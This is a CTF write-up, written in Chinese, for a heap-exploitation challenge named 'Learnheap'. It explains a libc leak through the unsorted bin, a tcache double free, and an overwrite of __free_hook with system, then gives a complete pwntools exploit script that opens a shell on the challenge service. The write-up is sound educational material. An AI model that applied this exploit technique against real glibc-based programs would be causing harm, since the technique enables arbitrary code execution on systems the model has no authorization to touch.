# Learnheap @Csome

### Step 1. Leak Libc address.

add add free add

第一个add需要创建大于0x420的chunk0，后续绕过tcachebin

第二个add创建一个不大于0x420的chunk1，可以落到tcache里面，方便后续利用

然后free掉chunk0，进入unsortedbin，再fd bk上面写上libc内main_arena的地址

第三个add创建一个chunk2(建议与chunk1大小一样，后续有用)，将unsortedbin中的块切分一块出来，由于malloc不清空chunk，所以会导致add()函数最后的printf将main_arena地址泄露

### Step 2. double free.

free free free

代码给了3次free的机会

很简单，就是将Step1中的chunk1和chunk2，交错free就行

形成chunk1->chunk2->chunk1->...

或者chunk2->chunk1->chunk2->...

即可

### Step 3. hijacking __free_hook

这一步给了4个add

要求劫持free_hook

再上一步中构造了doublefree，这一步就是利用doublefree

假设上一步的堆块结构是->a->b->a->....->b->a->b->a->.....

那么第一个add申请出来的就是a，那么往a内写入__free_hook地址就会形成

->b->a->free_hook

然后再次add两次就会变成

->free_hook

再次add就分配到了free_hook上面，此时写入system地址就可以达到劫持__free_hook

### Step 4. get shell!

最后一次free实现getshell

但是发现/bin/sh还没找到

回头发现在Step3中连续的两次add，浪费了，那么只需要在那两次add的时候向堆块写入/bin/sh即可

最后test全部通过

### 最后的Attack

由于前面已经知道了libc地址，所以只需要构造doublefree再次劫持free_hook即可

参考代码的指引一步一步实现即可

```python
from pwn import *

context.log_level='debug'
# io = process(['./ld-2.27.so', './learnheap'], env={'LD_PRELOAD': './libc-2.27.so'})
# io = process(['./ld-2.26.so', './learnheap'], env={'LD_PRELOAD': './libc-2.26.so'})
# io = process(['./ld-2.31.so', './learnheap'], env={'LD_PRELOAD': './libc-2.31.so'})
io = remote('0.0.0.0', 1234)

def add(idx, size, content):
    io.sendlineafter('id> ', str(idx))
    io.sendlineafter('size> ', str(size))
    io.sendlineafter('content> ', str(content))
    
def free(idx):
    io.sendlineafter('id> ', str(idx))

# gdb.attach(io)
add(0, 0x420, '0')
add(1, 0x20, '0')
free(0)
# io.recv()
add(2, 0x20, '')
# gdb.attach(io)
io.recvuntil('Your book: \n')

# main_arena = u64(io.recv(6).ljust(8,'\x00')) - 970 # 2.27
main_arena = u64(io.recv(6).ljust(8,'\x00')) - 1002 # 2.26
# main_arena = u64(io.recv(6).ljust(8,'\x00')) - 906 # 2.31
log.success('main_arena:'+hex(main_arena))

# libc_base = main_arena - 0x3ebc40 # 2.27
libc_base = main_arena - 0x3dac20 # 2.26
# libc_base = main_arena - 0x1ecb80  # 2.31
log.success('libc_base:'+hex(libc_base))

# libc = ELF('./libc-2.27.so')
libc = ELF('./libc-2.26.so')
# libc = ELF('./libc-2.31.so')

system_addr = libc_base + libc.sym['system']
log.success('system_addr:'+hex(system_addr))

io.sendlineafter("Let's make a test.", hex(system_addr))

# gdb.attach(io)
# add(3, 0x20, 'a')
free(1)
free(2)
free(1)
# free(2)

io.sendlineafter("Ok~,Let's make a test again.", str(0x20))

hook = libc.sym['__free_hook'] + libc_base
log.success('hook:'+hex(hook))
add(3, 0x20, p64(hook))
add(4, 0x20, '/bin/sh\x00')
add(5, 0x20, 'a')
# log.success(hex(libc.sym['__free_hook']))
add(6, 0x20, p64(system_addr))

free(4)

def add(idx, size, content):
    io.sendlineafter('> ', str(1))
    io.sendlineafter('id> ', str(idx))
    io.sendlineafter('size> ', str(size))
    io.sendlineafter('content> ', str(content))
    
def free(idx):
    io.sendlineafter('> ', str(3))
    io.sendlineafter('id> ', str(idx))

add(0, 0x20, 'a')
add(1, 0x20, 'a')
free(0)
free(1)
free(0)
add(3, 0x20, p64(hook))
add(4, 0x20, '/bin/sh\x00')
add(5, 0x20, 'a')
add(6, 0x20, p64(system_addr))
free(4)
# gdb.attach(io)
io.interactive()
```

